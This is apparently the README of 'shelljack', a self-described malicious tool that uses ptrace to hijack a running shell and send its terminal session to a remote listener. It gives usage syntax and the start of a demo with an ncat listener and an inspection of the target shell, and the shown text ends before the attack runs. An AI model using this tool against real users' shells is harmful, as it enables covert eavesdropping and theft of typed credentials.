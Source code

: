 _shelljack_ is a [malicious](http://en.wikipedia.org/wiki/Malware) [terminal emulator](http://en.wikipedia.org/wiki/Terminal_emulator) that uses [ptrace](http://en.wikipedia.org/wiki/Ptrace) to insert itself between a shell and it's [controlling tty](https://github.com/emptymonkey/ctty).

**What Architectures / OSs will this run on?**

Currently, _shelljack_ will only run on x86_64 Linux. Because _shelljack_ uses the Linux ptrace interface to inject assembly language [syscalls](http://en.wikipedia.org/wiki/Syscall) into a target process, nothing here is portable. That said, check out my other project, [<i>ptrace_do</i>](https://github.com/emptymonkey/ptrace_do). If I get around to supporting <i>ptrace_do</i> for other architectures, then porting _shelljack_ shouldn't be too hard.

**Please tell me more about this [deep magic](http://en.wikipedia.org/wiki/Deep_magic) of which you speak!**

* ptrace is the debugging interface provided by the Linux kernel. It is a *very* powerful tool, and the aspiring hacker would do well to study it. The best introduction I've seen comes in the form of two articles by Pradeep Padala dating back to 2002: [Playing with ptrace, Part I](http://www.linuxjournal.com/article/6100) and [Playing with ptrace, Part II](http://www.linuxjournal.com/article/6210)

* A solid understanding of [tty](http://en.wikipedia.org/wiki/Tty_%28Unix%29) fundamentals is necessary to fully understand the Unix / Linux command line. The best tutorial on this topic is easily [The TTY demystified](http://www.linusakesson.net/programming/tty/) by [Linus Åkesson](http://www.linusakesson.net/pages/me.php). 

# Usage #

	empty@monkey:~$ shelljack --help
	usage: shelljack LISTENER:PORT PID
		LISTENER:	Hostname or IP address of the listener.
		PORT:	Port number that the listener will be listening on.
		PID:	Process ID of the target process.

In order to properly mitm the [signals](http://en.wikipedia.org/wiki/Unix_signal) generated by the controlling tty, _shelljack_ must detach from it's original launch terminal. Because of this, you'll need to set up a listener to catch its eavesdropped output. [Ncat](http://nmap.org/ncat/) works nicely for this. (We've chosen localhost and port 9999 here, but _shelljack_ will happily use any [address](http://linux.die.net/man/3/getaddrinfo) that the machine will route.)

Let's do a demo. I'll be running the [tty](http://linux.die.net/man/1/tty) command in these examples to demonstrate which terminal the various commands are being run in.

Start by setting up a listener:

	empty@monkey:~$ tty
	/dev/pts/0
	empty@monkey:~$ ncat -k -l localhost 9999

Since this is a demo, let's also examine the shell we want to target:

	empty@monkey:~$ tty
	/dev/pts/3
	empty@monkey:~$ echo $$
	19716
	empty@monkey:~$ ls -l /proc/$$/fd
	total 0
	lrwx------ 1 empty empty 64 Jun 16 16:17 0 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:18 1 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:18 2 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:18 255 -> /dev/pts/3
